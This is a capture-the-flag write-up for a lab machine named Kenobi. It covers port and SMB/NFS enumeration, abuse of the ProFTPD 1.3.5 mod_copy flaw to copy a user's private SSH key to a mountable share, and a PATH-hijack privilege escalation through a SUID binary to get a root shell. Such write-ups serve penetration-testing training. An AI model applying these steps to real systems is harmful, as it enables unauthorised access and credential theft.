 # Kenobi
![](https://i.imgur.com/mmjgn6M.png)

We need to run a scan to know what is going on on our targets network
### Scan results
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -A 10.10.226.52 -T5   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-29 05:25 EST
Warning: 10.10.226.52 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.226.52
Host is up (0.29s latency).
Not shown: 964 closed tcp ports (conn-refused), 29 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/admin.html
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100005  1,2,3      34475/udp6  mountd
|   100005  1,2,3      53789/udp   mountd
|   100005  1,2,3      53833/tcp   mountd
|   100005  1,2,3      60453/tcp6  mountd
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp open  nfs_acl     2-3 (RPC #100227)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h01m48s, deviation: 3h27m51s, median: 1m47s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-01-29T10:28:22
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2024-01-29T04:28:22-06:00
|_nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.05 seconds
```

- From the above results we see that out target has 7 ports open
- we can get more information about our target from the open SMB port `139` and `445`
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <IP>
```
![](https://i.imgur.com/RZM1Od8.png)
- we have 3 shares available on SMB port `455`
- one of the share that stands out is the anonymous share:
```bash
\\10.10.226.52\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
```
it has a user home directory path
- we can use a tool called `smbclient` to enumerate further on that share
```bash
smbclient //<IP>/<SHARE>
```
![](https://i.imgur.com/aXX8We6.png)
- i used the get command to download a file that is available in the share to my own machine.

- reading the log file i see Information generated for Kenobi when generating an SSH key for the user
- and Information about the ProFTPD server
![](https://i.imgur.com/g57aec2.png)

>[!summary] 
our earlier nmap port scan has shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve.

- In our case, port 111 is access to a network file system. Lets use nmap to enumerate this:
```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <IP>
```
![](https://i.imgur.com/WUoOYRL.png)

From the above output we can see that there is a mountable NFS share `/var`

Going back to the initial nmap scan the first open port:
```bash
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
```
- ProFTPD version 1.3.5  is running
we can search for possible exploit on searchsploit and we have 4 possible exploits
![](https://i.imgur.com/ctbPdvF.png)
#### About the exploit
The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the file system to a chosen destination.

We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. 

so we can use Netcat to connect to the FTP server and use the vulnerable copy module to copy the private ssh key of the user kenobi `/home/kenobi/.ssh/id_rsa` to the mountable share `/var` 
![](https://i.imgur.com/KpFvRzt.png)

Lets mount the /var/tmp directory to our machine
```bash
mkdir /mnt/kenobiNFS
mount 10.10.226.52:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```
![](https://i.imgur.com/HZAkMYS.png)
then  i SSH into kenobi's account with the private key (using sudo)
![](https://i.imgur.com/0oaFTVx.png)

## Privilege Escalation with Path Variable manipulation

To search the a system for file with a SUID bit run the following: 
```bash
find / -perm -u=s -type f 2>/dev/null 
```
![](https://i.imgur.com/oIJQoyN.png)

we found some files, but the one that is odd from the results is the menu file.
- the `/usr/bin` directory is a directory that is usually in the PATH variable:
![](https://i.imgur.com/giTWmMv.png)
- this means if i just type `menu` in the CLI it should do something

![](https://i.imgur.com/6jfFj26.png)

See): ?

then i use the `strings` command to looks for human readable strings on a binary:
![](https://i.imgur.com/g5TnHHF.png)
- This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname)
- As this file runs as the root users privileges, we can manipulate our path gain a root shell.
![](https://i.imgur.com/K4es2mq.png)
We copied the /bin/sh shell, called it uname, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "uname" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!